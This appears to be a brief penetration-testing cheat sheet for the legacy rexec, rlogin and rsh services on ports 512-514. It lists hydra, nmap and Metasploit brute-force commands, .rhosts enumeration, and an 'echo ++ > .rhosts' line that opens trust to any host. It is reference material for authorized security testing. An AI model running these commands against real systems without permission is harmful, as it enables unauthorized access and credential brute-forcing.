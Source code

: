 

## 512 - rexec
### Access
```bash
rlogin <ipaddress>
```
### Brute Force
```bash
nmap -p 512 --script rexec-brute <IP>
```
```
use auxiliary/scanner/rservices/rexec_login
```



## 513 - rlogin
### Enumeration
```
Find the files
    find / -name .rhosts
    locate .rhosts
Examine Files
    cat .rhosts
Subvert the files
    echo ++ > .rhosts
```
### Manual Login
```bash
rlogin -l username <IP>
rlogin <IP>
```
### Brute force
```bash
nmap -p 513 --script rlogin-brute <ip>
```
```bash
hydra -L usernames.txt -P passwords.txt <IP> rlogin -V
```
```
use auxiliary/scanner/rservices/rlogin_login
```



## 514 - rsh
### Enumeration
```bash
rsh <IP> <Command>
```
### Brute force
```bash
hydra -L usernames.txt rsh://<IP> -v -V
```
```
use auxiliary/scanner/rservices/rsh_login
```
